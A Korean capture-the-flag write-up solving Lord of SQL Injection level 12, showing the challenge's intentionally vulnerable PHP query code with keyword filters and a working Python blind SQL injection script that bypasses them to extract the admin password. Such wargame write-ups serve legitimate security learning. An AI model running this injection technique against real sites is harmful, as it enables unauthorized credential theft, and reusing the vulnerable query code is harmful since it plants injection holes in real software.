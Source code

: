 ## Lord of SQL Injection No. 12- darknight
## 문제 출제 의도
1. Query 이해도 확인.
2. 지금 까지의 SQL Injection의 이해도 확인. 
## 소스 코드
~~~   
<?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
    if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
    if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
    $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
    highlight_file(__FILE__); 
?>
~~~
## 분석 결론
+ 금지 문자, 문자열
    - GET 방식으로 받은 no값에 'prob _ . ()중 하나라도 있다면 "No Hack~_~"이 출력되고 문제 풀이에 실패한다.
    - GET 방식으로 받은 no값에 'ascii, =, substr, =중 하나라도 있다면 "HeHe"가 출력되고 문제 풀이에 실패한다.
    - GET 방식으로 받은 pw값에 '(single quote)가 있다면 "HeHe"가 출력되고 문제 풀이에 실패한다.
+ pw
    - pw에 특수문자를 입력해도 특수문자 처리가 되지 않는다.
+ 풀이 성공 조건
    - 입력한 pw와 데이터 베이스에서 받아 온 실제 pw가 같아야 한다.
## 문제 해결
1. Blind SQL Injection
    - 다음과 유사한 방법으로 pw값을 알 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote

    key = ""
    for i in range(1, 9):
        for j in range(48, 127):
            url = "http://los.eagle-jump.org/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php?no="
            data = '1 or id like "admin" and mid(pw,1,{}) like "{}"#'.format(str(i), key + chr(j))
            print(data)
            data = quote(data)
            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36") 
            re.add_header("Cookie", "PHPSESSID=6ckrsnfovcd74972o80ugmksb4")
            res = urllib.request.urlopen(re) 
            if str(res.read()).find("Hello admin") != -1:
                key += chr(j).lower()
                print(key)
                break
    print(key)
    ~~~ 
    - 이는 "1c62ba6f"을 출력한다.
    - 이를 GET방식으로 pw에 입력하면 문제 풀이에 성공한다.